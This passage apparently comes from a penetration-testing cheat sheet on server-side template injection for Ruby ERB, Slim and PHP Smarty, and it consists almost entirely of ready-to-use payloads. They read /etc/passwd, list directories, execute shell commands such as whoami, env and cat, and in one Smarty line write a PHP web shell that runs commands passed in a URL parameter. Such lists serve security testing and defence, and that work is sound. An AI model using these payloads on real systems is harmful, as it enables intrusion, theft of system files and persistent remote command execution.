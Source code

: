 
---

## Ruby

### Ruby - Basic injections

ERB:

```ruby
<%= 7 * 7 %>
```

Slim:

```ruby
#{ 7 * 7 }
```

### Ruby - Retrieve /etc/passwd

```ruby
<%= File.open('/etc/passwd').read %>
```

### Ruby - List files and directories

```ruby
<%= Dir.entries('/') %>
```

### Ruby - Code execution

Execute code using SSTI for ERB engine.

```ruby
<%= system('cat /etc/passwd') %>
<%= `ls /` %>
<%= IO.popen('ls /').readlines()  %>
<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>
<% require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>
```

Execute code using SSTI for Slim engine.

```powershell
#{ %x|env| }
```

---

## Smarty

[Official website](https://www.smarty.net/docs/en/)
> Smarty is a template engine for PHP.

```python
{$smarty.version}
{php}echo `id`;{/php} //deprecated in smarty v3
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
{system('ls')} // compatible v3
{system('cat index.php')} // compatible v3
```

---